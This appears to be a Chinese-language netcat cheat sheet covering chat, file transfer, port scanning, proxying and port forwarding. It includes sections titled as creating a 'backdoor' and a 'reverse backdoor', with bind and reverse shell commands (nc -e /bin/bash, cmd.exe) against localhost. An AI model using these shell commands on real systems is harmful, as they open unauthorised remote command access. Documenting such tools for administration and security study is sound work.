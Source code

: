 # nc使用

Chat
```
# 发送端
nc -l 3333
# 接受端
nc 127.0.0.1 3333
```

传送文件
```
# 发送端
`cat backup.iso | nc -l 3333`
# 接收端
`nc 192.168.0.1 3333 > backup.iso`
```


显示传送进度，可以使用管道监控,pv命令
```
`cat backup.iso | pv -b | nc -l 3333`
`nc 192.168.0.1 3333 | pv -b > backup.iso`
```


本地打包文件，传送到远端
```
`tar -czf - /etc/ | nc -l 3333`
`nc 192.168.0.1 3333 | pv -b > mybackup.tar.gz`
```

端口扫描
```
扫描端口，并返回相关信息
nc -z 192.168.0.1 80-90
```

如何正确的加密聊天
```
nc -l 3333
ssh  yantze@192.168.0.1 sleep 1; nc 127.0.0.1 3333
```

如何正确的创建后门
```
nc -l 3333 -e /bin/bash
nc -l 3333 -e cmd.exe
nc 127.0.0.1 3333
```

如何逆向后门
```
nc -l 3333
nc 127.0.0.1 3333 -e /bin/bash
```

指定代理方式
> 以 http 的方式把 host.example.com:42 映射到 10.2.3.4:8080
```
nc -x10.2.3.4:8080 -Xconnect host.example.com 42
```

SSH over Socks
```
ssh -o ProxyCommand='/usr/bin/nc -x 127.0.0.1:1080 %h %p' -i "xxx.pem" user@host
```

nc over pipe ( port forwarding )
```
mkfifo a
mkfifo b
nc 127.0.0.1 8000 < b > a &
nc -l 8001 < a > b &
```

ssh 版本端口转发(远程转发，访问 host:8080 就相当于访问 localhost:80)
```
ssh -R 0.0.0.0:8080:localhost:80 user@host
# -R remote 的缩写
# -R [登录主机:]登录主机端口:远程主机:远程主机端口
# 0.0.0.0:8080 部分就是在 user@host 中建立 LISTEN 0.0.0.0:8080
```

## See Also
- [socat](./socat.md)
- [ssh](./ssh.md)

## Ref
- https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf
- http://www.g-loaded.eu/2006/11/06/netcat-a-couple-of-useful-examples/
- https://dragula.viettug.org/blogs/263.html
